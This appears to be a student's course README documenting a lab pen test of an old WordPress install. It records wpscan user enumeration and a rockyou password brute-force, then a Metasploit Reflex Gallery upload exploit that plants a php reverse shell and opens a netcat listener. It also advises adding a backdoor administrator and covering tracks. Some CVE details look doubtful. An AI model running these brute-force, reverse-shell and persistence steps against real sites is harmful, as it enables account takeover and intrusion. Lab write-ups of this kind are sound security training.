 # Project 7 - WordPress Pen Testing

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary:     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
  <br /> https://www.kali.org/get-kali/#kali-virtual-machines
  <br /> https://www.kali.org/tools/wpscan
  <br /> https://wpscan.com/
  <br /> password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
  <br /> sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
  <br /> wpscan -h (Display the Help)
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
  <br /> wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  


- [ ] Walkthrough:
<br /> Where's the Beef ?!?
<img src="user_enum1.gif">
<br /> A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!
<img src="BruteForce.gif">
<br /> The Damage... We got User credentials, PII, and our very own Administrative Account !?!
<img src="damage.gif">


- [ ] Steps to recreate:
<br /> - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
<br /> - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
<br /> - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
<br /> - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
<br /> - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
<br /> - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: 
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
<br /> https://www.kali.org/tools/metasploit-framework/
<br /> exploit/unix/webapp/wp_reflexgallery_file_upload
<br /> https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/
<br /> https://pentestmonkey.net/tools/web-shells/php-reverse-shell
<br /> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
<br /> https://phoenixnap.com/kb/vim-commands-cheat-sheet
<br /> https://www.kali.org/tools/netcat/

 - Commands used:
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> service postgresql start (for msf)
  <br /> msfdb init (for msf)
  <br /> msfconsole (msf)
  <br /> db status (for msf)
  <br /> search reflex (msf exploit)
  <br /> use 0 (select module)
  <br /> show options
  <br /> set RHOST wpdistillery.vm (target)
  <br /> set LHOST 192.168.33.101 (Kali VM)
  <br /> run
  <br /> shell
  <br /> whoami
  <br /> hostname
  <br /> pwd 
  <br /> ls
  <br /> ../
  <br /> pwd 
  <br /> edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
  <br /> :%d
  <br /> :wq
  <br /> exit
  <br /> nc -nvlp 80
  
  
- [ ] Walkthrough:
<br /> Ole Reliable 
<img src="plugins.gif">
<br /> I've always wanted a Swiss Army Knife
<img src="swiss_army_knife.gif">
<br /> I'll be listening for the Door
<img src="backdoor.gif">

- [ ] Steps to recreate:
<br /> - Scan the Target for a weakness.
<br /> - Bring out the right tool for the job. Use Metasploit Framework to attempt an exploit.  
<br /> - Take aim and shoot. Are we in? Cool, leave a way to Maintain Access.Inject a reverse shell.
<br /> - Now, we wait and listen. 
<br /> - You are now an agent of chaos.
<br />  Considerations: Privilege Escalation should be attempted 

### 3. Authenticated Stored Cross-Site Scripting (CVE-2015-5622)

- [ ] Summary: 
  - Vulnerability types:XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough:
<br /> Whats the big deal? Oh noooooo!!! 
<img src="victim.gif">
<br /> You can't win em all
<img src="XXS.gif">
- [ ] Steps to recreate: 



## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
